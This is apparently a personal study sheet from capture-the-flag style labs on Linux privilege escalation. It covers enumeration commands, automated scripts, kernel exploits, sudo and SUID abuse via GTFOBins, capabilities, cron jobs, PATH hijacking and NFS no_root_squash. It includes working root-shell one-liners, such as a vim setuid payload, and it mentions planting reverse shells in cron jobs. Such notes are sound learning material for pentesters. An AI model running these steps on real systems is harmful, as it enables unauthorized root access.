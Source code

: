 ## Linux Privilege Escalation:
- By [Sai Sathvik](https://linktr.ee/saisathvikruppa)
- In order to understand what a particular Linux command does, use: https://www.explainshell.com/
- Important Resource: https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/
- Privilege escalation is the technique used to escalate our privileges from lower user to higher user(interms of privileges)
- Once we obtain the higher level privilege on the system then we can do a lot of things on that system

---------------------
### Enumeration: 
- Here we're going to see few commands which help us in enumerating target system
1. `hostname` - lists the name of the host
2. `uname -a` - prints kernel information
3. `cat /proc/version` - prints almost same infor of above command but more like gcc version....
4. `cat /etc/issue` - exact version on the OS
5. `ps` - lists the processes that are running
	* `ps -A` - all running processes
	* `ps axjf` - process tree
	* `ps aux` - displays processes with the users as well
6. `env` - shows all the environment variable
7. `sudo -l` - lists the commands that any user run as root without password
8. `groups` - lists the groups that current user is in
9. `id` - lists id of group,user
10. `cat /etc/passwd` - displays all the user
	- `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
	- `ls /home` - displays users
11. `history` - previously ran commands which might have some sensitive info
12. `ifconfig` (or) `ip a` (or) `ip route` - network related information
13. **netstat** - network route
	* `netstat -a` - all listening and established connection
	* `netstat -at` - tcp connections
	* `netstat -au` - udp connections
	* `netstat -l` - listening connections
	* `netstat -s` - network statistics
	* `netstat -tp` - connections with service name and pid we can also add "l" for only listening ports
	* `netstat -i` - interface related information
	* `netstat -ano`
14. **find** command which helps us in finding lot of stuff,
	- Syntax: `find <path> <options> <regex/name>`
	find . -name flag1.txt: find the file named “flag1.txt” in the current directory
	- `find /home -name flag1.txt` : find the file names “flag1.txt” in the /home directory
	- `find / -type d -name config` : find the directory named config under “/”
	- `find / -type f -perm 0777` : find files with the 777 permissions (files readable, writable, and executable by all users)
	- `find / -perm a=x` : find executable files
	- `find /home -user frank` : find all files for user “frank” under “/home”
	- `find / -mtime 10` : find files that were modified in the last 10 days
	- `find / -atime 10` : find files that were accessed in the last 10 day
	- `find / -cmin -60` : find files changed within the last hour (60 minutes)
	- `find / -amin -60` : find files accesses within the last hour (60 minutes)
	- `find / -size 50M` : find files with a 50 MB size
	- `find / -writable -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -222 -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -o w -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
	- We can also find programming languages and supported languages: `find / -name perl*`, `find / -name python*`, `find / -name gcc*` ...etc
	- `find / -perm -u=s -type f 2>/dev/null` : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. This is important!
15. We can even make use of "grep", "locate", "sort"...etc

----------------
### Automated Enumeration Scripts:
- In real life we dont get much time to do enumeration so we can make use of some cool automated scripts like follows,
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker

-------------------
### Linux Kernel Exploits:
- After finding the version of Kernel simple google for that exploit or you can also use "Linux Exploit suggester"
- Once you find the exploit for the privesc, transfer the payload from your machine to target machine and execute and you're good to go.
- In an example I worked out with **overlayfs** exploit and got higher privileges

------------------
### Sudo:
- This one of the first step to do, when you get access to the machine just simpley run "sudo -l", which lists all the files that we can run as root without any password
- Once you have any to run then navigate to https://gtfobins.github.io/ and search for is the one specified is a system program or else modify the file with "/bin/sh" and run that
- GTFO bins is going to be saviour!

----------------------
### SUID:(Set owner User ID)
- Its a kind of permission which gives specific permissions to run a file as root/owner
- This is really helpful to test.
- `find / -perm -u=s -type f 2>/dev/null` this will list all the suid files
- Then later search in GTFObins and look for the way to bypass
- Resource: https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/

------------------
### Capabilities:
- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!

----------------
### Cron jobs:
- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- But if we find any cron-job which we can edit then we can do a lot!
- Cron job config is stored as **crontabs**
- To view crontab, `cat /etc/crontab`
- Any one can view it!
- Now we'll can see some cron-jobs see whether you can edit or not, if you can then edit with some reverse shell and listen!

-------------------
### PATH:
- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

-------------------
### NFS:(Network File Sharing)
- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the **mountable shares**.
- In the output look for directories having `no_root_squash`, this means that the particular share is *writable*, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, 
`mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and we can view the binary we created in the place we mounted, now run that and get root privileges!(do note that giving executable rights is not sufficient, we also need to give share rights by `chmod +s <binary>`)
- Then we're good to go!

---------------------------

## Thank you!!
